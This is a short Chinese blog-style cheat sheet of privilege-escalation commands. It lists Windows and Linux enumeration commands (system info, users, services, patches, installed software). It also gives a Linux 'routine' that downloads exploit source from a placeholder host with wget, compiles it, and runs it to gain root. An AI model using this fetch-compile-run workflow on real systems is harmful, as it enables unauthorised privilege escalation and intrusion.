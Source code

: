 ```yaml
---
layout: post
title: "内网提权命令"
date: 2018-09-07
category: 安全
tags: 安全
---
```


## Windows基础提权命令

	查看系统信息
	systeminfo|findstr /B/C:"OS名称"/C:"OS版本"

	主机名
	Hostname

	环境变量
	Set

	查看用户信息
	Net user
	Net1 user

	查看服务pid号
	Tasklist/svc|find "TermService"
	netstat -ano|find "1488"

	查看系统名
	wmic os get caption

	查看补丁信息
	wmic dfe get Description,HotFixID,InstalledOn|findstr /C:"KB4013389" /C:"KB958644"

	查看当前安装程序
	wmic product get name,version

## Linux提权基础命令

	基础命令：
	uname -an
	id
	pwd
	cat /etc/issue

	套路：
	wget http://exp/exp.c
	gcc -o exp exp.c
	chmod +x exp
	./exp
	...到root

## LINK

[SecWikiGithub](https://github.com/SecWiki)  
[SecWiki](https://www.sec-wiki.com/)  
